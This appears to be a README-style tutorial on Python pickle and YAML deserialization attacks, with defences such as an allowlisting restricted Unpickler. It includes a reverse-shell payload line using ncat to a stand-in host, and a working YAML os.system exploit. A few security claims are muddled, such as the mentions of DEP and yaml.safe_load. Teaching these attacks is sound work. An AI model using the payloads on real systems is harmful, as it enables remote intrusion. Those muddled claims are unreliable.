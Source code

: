 # Malicious Pickle

A dangerous misuse of Python's pickle module—specifically demonstrating how arbitrary code execution can be embedded inside serialized Python objects.

What GNAT is, what it does, and why this is important (or dangerous).

## 🔍 What is GNAT in This Code?
```
class GNAT:
    def __reduce__(self):
        return (os.system, ('id',))
```        
GNAT is a custom class with a special method __reduce__() defined.
__reduce__() is part of Python’s pickling protocol. It's used to tell pickle how to serialize and deserialize an object. Here, it returns a tuple: (os.system, ('id',)). This tells pickle that when unpickling, it should run os.system("id").


💣 What This Code Does
It defines a malicious class (GNAT) that triggers a shell command when deserialized.
It serializes it using pickle.dumps() and base64-encodes the result.
Upon deserialization (which is not shown here, but implied), the command id will be executed via os.system.

☠️ Potential Exploitation
Replace:
```
return (os.system, ('id',))
```

with:
```
return (os.system, ('ncat -e powershell.exe hack.man 4444',))
```

And the object will, when deserialized, open a reverse shell to hack.man on port 4444. This is a serious remote code execution (RCE) vulnerability.

🔒 Why This Is Important
➤ pickle is not safe for untrusted input
If you load a pickle file (pickle.load(...)) from an untrusted source, it may execute arbitrary code.

This is a classic deserialization attack—just like Java's ObjectInputStream or PHP's unserialize.

➤ Used in:
Security testing (Red Teaming / Exploits)
Malware payloads
Serialization-based attacks

## 🧪 The Safe Way to Serialize
If you need safe serialization, use:
- json for primitive types
- yaml.safe_load (not yaml.load)
- protobuf or MessagePack for structured data

🧾 Summary
- GNAT here is a custom class that uses Python's __reduce__() to demonstrate code execution via pickling.
- The code is a clear example of how malicious payloads can be crafted using Python's pickle module.
- Never unpickle data from untrusted sources.
- You **cannot safely unpickle untrusted data — ever** — even with yaml.**safe_load**. pickle is inherently unsafe for untrusted input because it allows arbitrary code execution. Think of pickle as a trusted-only binary serialization format, not a secure transport or storage mechanism.

## ✅ What You Should Do Instead
1. Use YAML, JSON, or MessagePack for Safe Data Exchange (signed as trusted)
If you're receiving data from untrusted sources:
- Use yaml.safe_load or json.loads
- Only parse known-safe formats

2. Replace Pickle With Safer Alternatives
Use:
- json — for basic types (dict, list, str, int, etc.)
- PyYAML (yaml.safe_load) — for structured config-like data
- msgpack — for compact binary-safe JSON
- protobuf / cap’n proto / flatbuffers — for high-performance structured binary formats

3. Use a custom deserializer
If you absolutely need to deserialize Python objects:
- Write a whitelist of allowed classes/types
- Use something like [pickle.loads(data, fix_imports=False, encoding="bytes")] carefully
- Or better, design your own safe serialization format

**Reason: The DEP (Data Execution Prevention) problem. You cannot execute yaml and json, but you can execute pickle.loads() as it is basically a system call.**

| Format           | Can execute code? | Safe for untrusted input? |
| ---------------- | ----------------- | ------------------------- |
| `pickle`         | ✅ YES             | ❌ NO                      |
| `yaml.load`      | ✅ YES             | ❌ NO                      |
| `yaml.safe_load` | ❌ NO              | ✅ YES                     |
| `json`           | ❌ NO              | ✅ YES                     |

| Loader             | Safe? | Executes Code?         |
| ------------------ | ----- | ---------------------- |
| `yaml.load()`      | ❌ No  | ✅ Yes — arbitrary code |
| `yaml.safe_load()` | ✅ Yes | ❌ No — data only       |


```
%%writefile exploit.yaml
!!python/object/apply:os.system ["echo YAML EXECUTED"]
```

akin to making the system: `!python3 -c "import os; os.system('echo YAML EXECUTED')"`

```
import yaml

# ⚠️ This will execute a system command!
with open("exploit.yaml", "r") as f:
    yaml.load(f, Loader=yaml.FullLoader)  # OR yaml.Loader # yaml.load(untrusted_data, Loader=yaml.FullLoader)  # Dangerous!


#with open("exploit.yaml", "r") as f:
#    data = yaml.safe_load(f)  # SAFE: won't run os.system or apply!
```

# Approaches to secure deserialization

✅ Option 1: Restricted Unpickler (Allowlist Specific Classes)
This approach prevents arbitrary code execution by only allowing safe classes/modules.

🔒 restricted_unpickler.py
```
import pickle
import io

# A safe class we'll allow
class User:
    def __init__(self, name, age):
        self.name = name
        self.age = age

    def profile(self):
        return f"{self.name} : {self.age}"

# Restricted Unpickler
class RestrictedUnpickler(pickle.Unpickler):
    ALLOWED = {
        ('__main__', 'User'),
    }

    def find_class(self, module, name):
        if (module, name) in self.ALLOWED:
            return super().find_class(module, name)
        raise pickle.UnpicklingError(f"Blocked: {module}.{name} not allowed")

def restricted_loads(data):
    return RestrictedUnpickler(io.BytesIO(data)).load()

# Demo: Safe object
if __name__ == "__main__":
    u = User("ursa", 50)
    safe_pickle = pickle.dumps(u)

    obj = restricted_loads(safe_pickle)
    print("Restored object:", obj.profile())

```

⚠️ Try This: Attempt to Load a Dangerous Payload

```
import pickle, base64

class GNAT:
    def __reduce__(self):
        return (eval, ("print('Danger!')",))  # Or os.system

print("=== User harmless ===")
#danger_pickle = pickle.dumps(GNAT())
danger_pickle = pickle.dumps(User("ursa", 50))

# from restricted_unpickler import restricted_loads
restricted_loads(danger_pickle)  # 

print("=== GNAT ===")
danger_pickle = pickle.dumps(GNAT())
restricted_loads(danger_pickle)  # Raises UnpicklingError

"""
Restored object: ursa : 50
=== User harmless ===
=== GNAT ===
---------------------------------------------------------------------------
UnpicklingError                           Traceback (most recent call last)
<ipython-input-64-1159813276> in <cell line: 0>()
     49 print("=== GNAT ===")
     50 danger_pickle = pickle.dumps(GNAT())
---> 51 restricted_loads(danger_pickle)  # Raises UnpicklingError

1 frames
<ipython-input-64-1159813276> in find_class(self, module, name)
     20         if (module, name) in self.ALLOWED:
     21             return super().find_class(module, name)
---> 22         raise pickle.UnpicklingError(f"Blocked: {module}.{name} not allowed")
     23 
     24 def restricted_loads(data):

UnpicklingError: Blocked: builtins.eval not allowed

"""

```

| Safe Action              | What to Use                                                |
| ------------------------ | ---------------------------------------------------------- |
| Serialize safely         | `json`, `yaml.safe_load`, `protobuf`, `msgpack`            |
| Validate deserialization | Custom `Unpickler` or schema-checking                      |
| Audit serialized data    | Use `pickletools.dis()` or `pickle.load()` in safe sandbox |
